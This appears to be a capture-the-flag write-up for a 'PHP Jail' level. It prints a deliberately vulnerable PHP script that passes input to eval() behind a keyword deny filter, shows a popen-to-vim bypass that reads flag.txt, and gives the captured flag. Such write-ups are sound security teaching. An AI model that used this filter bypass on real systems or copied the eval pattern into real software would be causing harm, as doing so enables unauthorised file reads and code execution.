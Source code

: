 # Level 2

```.php
PHP Jail Level 2
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge PHP code:
-----------------------------

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(\/|a|c|s|require|include|flag|eval|file)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:

```

Since some functions (like `fread`, `file_get_contents` are not allowed) we can use `popen` to start an external command in order to 
read the flag.txt:

```.shell
popen("vim", "w");
```

This `vim` is started and we can read the `flag.txt` by loading it into the buffer:

```.shell
:r flag.txt
```

Flag: FLAG-YlxV8cCg84zvUtt595dla5un9EW57BCL

# Level 3
